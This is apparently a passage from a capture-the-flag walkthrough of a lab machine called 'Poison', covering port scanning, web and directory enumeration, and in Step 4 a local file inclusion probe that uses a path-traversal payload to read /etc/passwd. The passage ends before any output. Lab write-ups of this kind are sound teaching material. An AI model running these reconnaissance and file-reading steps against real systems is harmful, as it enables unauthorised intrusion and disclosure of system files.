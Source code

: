 **Output:**
```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-03 10:00 UTC
Nmap scan report for 10.10.10.84
Host is up (0.045s latency).
Not shown: 991 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

### Step 2: Web Service Enumeration
Check the web service for application information.

**Command/Code:**
```bash
curl http://10.10.10.84/
```

**Output:**
```
<html>
<head>
<title>Poison</title>
</head>
<body>
<h1>Welcome to Poison</h1>
</body>
</html>
```

### Step 3: Directory Enumeration
Enumerate directories to find vulnerable pages.

**Command/Code:**
```bash
gobuster dir -u http://10.10.10.84/ -w /usr/share/wordlists/dirb/common.txt
```

**Output:**
```
/index.php
/listfiles.php
/browse.php
```

### Step 4: LFI Vulnerability Discovery
Test the browse.php page for LFI vulnerability.

**Command/Code:**
```bash
curl "http://10.10.10.84/browse.php?file=../../../etc/passwd"
```

